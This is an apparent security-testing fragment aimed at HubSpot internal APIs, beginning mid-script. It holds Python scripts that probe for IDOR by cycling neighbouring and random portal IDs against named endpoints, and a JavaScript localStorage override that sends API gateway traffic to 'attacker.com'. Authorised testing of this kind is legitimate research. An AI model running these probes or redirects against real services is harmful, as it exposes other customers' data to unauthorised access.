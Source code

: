 ```python
]

for service in services_to_test:
    for method in methods_to_test:
        url = f"{chirp_base}/{service}/{method}"
        # Test with portal ID params
```

### Script 3: IDOR Portal Testing
```python
# /tmp/test_portal_idor.py

portal_id = '242862774'
user_id = '159548558'

# Test with different portal IDs
test_portal_ids = [
    portal_id,  # Valid
    str(int(portal_id) + 1),  # Sequential
    str(int(portal_id) - 1),
    '100000000',  # Random
]

endpoints_to_test = [
    f'/api/presence/v1/presence/portal/{{}}/user/{user_id}',
    f'/api/customer-object-types/v1/for-portal/include-disabled',
    f'/api/chirp-frontend-app/v1/gateway/com.hubspot.growth.post.purchases.rpc.server.GrowthPostPurchasesChirpService/validatePortalForGrowthProPlusExposure',
]

# Test each endpoint with each portal ID
# Monitor for:
# - 200 OK (successful IDOR)
# - 403 Forbidden (failed but portal exists)
# - 404 Not Found (portal doesn't exist)
```

---

## Integration with Existing Work

### From Track-B-Peer-Review-Validation.md

**NEW localStorage keys to test with these endpoints:**
```javascript
// Test if these affect API behavior:
localStorage.setItem('LOCAL_API_OVERRIDES', JSON.stringify({
  '/api/chirp-frontend-app/v1/gateway': 'https://attacker.com/chirp'
}));

localStorage.setItem('HTTP_FAILURE_INJECTION', 'true');
localStorage.setItem('WHISPER_CORE_DEV', 'true');

// Then test CHIRP endpoints to see if overrides take effect
```

---